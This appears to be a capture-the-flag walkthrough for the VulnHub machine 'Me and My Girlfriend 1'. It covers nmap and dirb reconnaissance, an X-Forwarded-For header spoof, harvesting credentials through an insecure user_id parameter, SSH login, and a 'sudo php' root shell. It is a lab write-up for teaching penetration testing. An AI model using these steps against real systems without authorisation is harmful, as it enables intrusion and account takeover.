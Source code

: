 # Walkthrough: [Me and My Girlfriend 1](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Privilege Escelation](#privilege-escelation)
---

## Enumeration: 
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
	
- VM info: `nmap -A -T4 -v 192.168.0.14`

	* <pre>
	  22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
	  80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
	  </pre>
	  
- web Server Directory: `dirb -w http://192.168.0.14`

	* <pre>
	  http://192.168.0.14/index.php
	  http://192.168.0.14/misc/process.php
	  http://192.168.0.14/config/config.php
	  http://192.168.0.14/heyhoo.txt
	  </pre>
---

## Penetration:
- *index.php* requires local machine access
- Header capture/info with **Fiddler**
- Customize header with a browser extension(simply add `X-Forwarded-For: 0.0.0.0`)
- Local access granted 
- Register page: http://192.168.0.14/index.php?page=register
- Login page: http://192.168.0.14/index.php?page=login
- Profile page: http://192.168.0.14/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- *user_id* allows to get all the name,uname,pass values 
- uname:pass list 
	* <pre>
	  1.eweuhtandingan:skuyatuh
	  2.aingmaung:qwerty!!!
	  3.sundatea:indONEsia
	  4.sedihaingmah:cedihhihihi
	  5.alice:4lic3  <--------------- Alice's credentials
	  6.abdikasepak:dorrrrr
	  </pre>
- `ssh 192.168.1.13 -l alice`
- Login in and capture **first flag**
---
		  
## Privilege Escelation:
- `sudo -l`
	* alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- Root access granted
- `cd /root && cat flag*` and capture the **second flag**





